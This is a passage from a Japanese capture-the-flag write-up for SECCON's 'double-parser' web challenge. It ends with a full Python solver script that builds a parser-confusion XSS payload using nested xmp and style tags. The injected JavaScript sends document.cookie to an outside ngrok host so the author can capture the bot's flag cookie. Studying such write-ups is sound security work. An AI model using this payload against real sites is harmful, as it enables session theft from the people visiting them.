 あとは、cookieを自分のサーバーに送るコードを埋め込み、そのURLをbotに送ることで、フラグを入手することができた。

### 最終的なコード

```python:solver.py
import webbrowser
import requests
from urllib import parse

URL = "http://double-parser.seccon.games:3000/"
# URL = "http://localhost:3001/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()

# スクリプトタグで読み込むjavascriptコード
js = f"""
<!--a--><xmp><xmp><a></a id=</xmp><style></xmp>
document.location.assign('{EVIL}?'+document.cookie)//</script></style>
""".strip()

# ペイロード
html = """
<xmp><xmp><a></a id=</xmp><style></xmp><script src="/?html=%s"></script></style>
""".strip() % parse.quote(js)

# バリデーションに引っかかっていないか確認
r = s.get(URL, params={
  "html": html
})
print(r.text)
print(r.url)
# バリデーションに引っかかっていなければブラウザで開く
if "Invalid" not in r.text:
  webbrowser.open(r.url)
````